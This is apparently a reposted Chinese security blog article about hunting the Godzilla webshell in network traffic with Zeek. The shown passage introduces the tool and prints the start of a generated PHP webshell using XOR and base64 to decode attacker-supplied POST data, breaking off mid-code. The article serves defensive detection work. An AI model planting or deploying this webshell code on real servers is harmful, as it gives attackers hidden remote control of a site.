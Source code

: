 > 原文链接: https://www.anquanke.com//post/id/224831 


# 巧用Zeek在流量层狩猎哥斯拉Godzilla


                                阅读量   
                                **231795**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t0131895faa5c5116dc.jpg)](https://p5.ssl.qhimg.com/t0131895faa5c5116dc.jpg)



## 前言

“过市面所有静态查杀”、“流量加密过市面全部流量waf”，伴随着这样的标签，哥斯拉在今年的攻防演练活动中成功亮相。这是赐给红队的又一把尖刀，也让防守队雪上加霜。截至目前，主机层面的主流查杀工具均已覆盖了哥斯拉webshell静态规则，但流量层面的检测可能仍然要打一个问号。



## webshell分析

关于哥斯拉的功能，通过[《攻防礼盒：哥斯拉Godzilla Shell管理工具》](https://www.freebuf.com/sectool/247104.html)这篇文章可以有比较全面的了解。nercis在[《哥斯拉Godzilla运行原理探寻》](https://www.freebuf.com/sectool/252840.html)一文中通过生成的jsp版shell和客户端jar包向大家介绍了其运行原理。

由于哥斯拉在处理jsp和php时加密方式存在差异，本文将从php版的shell展开，对其运行原理再做一下总结和阐述。

先生成一个php静态shell，加密器选择`PHP_XOR_BASE64`。

[![](https://p5.ssl.qhimg.com/t01607bfc8ae51606a3.png)](https://p5.ssl.qhimg.com/t01607bfc8ae51606a3.png)

生成的shell代码如下：

```
&lt;?php
    session_start();
    @set_time_limit(0);
    @error_reporting(0);
    function E($D,$K)`{`
        for($i=0;$i&lt;strlen($D);$i++) `{`
            $D[$i] = $D[$i]^$K[$i+1&amp;15];
        `}`
        return $D;
    `}`
    function Q($D)`{`
        return base64_encode($D);
    `}`
    function O($D)`{`
        return base64_decode($D);
    `}`
    $P='s4kur4';
    $V='payload';
    $T='85f35deb278e136e';
    if (isset($_POST[$P]))`{`
        $F=O(E(O($_POST[$P]),$T));
```